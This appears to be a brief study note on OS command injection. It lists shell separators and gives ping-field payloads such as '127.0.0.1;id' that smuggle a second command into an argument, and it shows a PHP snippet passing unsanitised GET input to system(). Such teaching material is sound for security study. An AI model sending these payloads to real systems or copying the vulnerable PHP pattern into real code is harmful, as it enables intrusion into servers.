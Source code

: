 ```yaml
---
tags:
- cmdInjection
---
```


# CMD Injection.  Command Channing

Separators: |  ;  &&  ||   \n 
In http newline's  hexadecimal value is 0x0A.
Example of running commands split by newline:
```bash
ping 127.0.0.1  
whoami
```

Payload example for ping:
```
127.0.0.1|id
127.0.0.1;id
127.0.0.1 && id
127.0.0.1 -unknown || id
```
Example of php implementation for ping command
```php
$IP = $_GET['IP'];

echo "<pre>";

system("ping -c 5 ".$IP);

echo "</pre>";
```
